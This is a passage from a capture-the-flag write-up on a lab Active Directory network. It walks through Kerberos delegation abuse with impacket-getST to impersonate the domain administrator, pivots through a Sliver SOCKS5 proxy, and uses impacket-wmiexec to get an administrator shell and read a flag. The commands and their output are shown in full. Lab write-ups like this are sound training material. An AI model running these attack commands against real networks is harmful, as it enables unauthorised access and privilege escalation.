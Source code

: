 A list of default (and important) SPNs can be found: [here](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/silver-ticket.html#). For this writeup, we'll be using the `cifs` SPN, which is used for the SMB service which allows us to access remote shares and interact with services.

```
proxychains -q impacket-getST -spn 'cifs/WESTERN-OUTPOST.async.empire' -impersonate 'administrator' 'async.empire'/'GATARI$':'P@ssw0rd'             
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_WESTERN-OUTPOST.async.empire@ASYNC.EMPIRE.ccache
```

Since `WESTERN-OUTPOST` is only accessible via our newly-acquired `SOUTHERN-TOWER` session, we can use our sliver session to proxy the connection to `WESTERN-OUTPOST` using the `socks5` command. This will allow us to connect to `WESTERN-OUTPOST` via the jump host.

```
sliver (initial) > socks5 start --port 1082

[*] Started SOCKS5 127.0.0.1 1082  
⚠  In-band SOCKS proxies can be a little unstable depending on protocol
```

As our previous SSH tunnel is still active (and using SOCKS4), we'll need to modify our `/etc/proxychains4.conf` to use `SOCKS5`, set the `proxy_dns` option to `true`, and modify the connection port to `1082` instead of `1081`.

```
socks5 127.0.0.1 1082 X X
```

> `X` can be empty as `sliver` does not set any authentication by default.

Using the acquired `cifs@western-outpost` ticket, we can now access the `WESTERN-OUTPOST` machine using `impacket-wmiexec` to execute commands on the remote machine - and obtain the third flag!

```
export KRB5CCNAME='administrator@cifs_WESTERN-OUTPOST.async.empire@ASYNC.EMPIRE.ccache'
proxychains -q impacket-wmiexec -k -no-pass WESTERN-OUTPOST.async.empire                                                              
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>hostname
Western-Outpost

C:\>whoami
async\administrator

C:\>type C:\users\administrator\desktop\flag3.txt
ccca789d08f5872e6c892d49714f3a54
```

Similarly, the next machine is only accessible via the `WESTERN-OUTPOST` machine, so you will need to obtain a `sliver` pivot session on `WESTERN-OUTPOST`. This will not be shown in the writeup, but [these docs](https://sliver.sh/docs?name=Pivots) should help.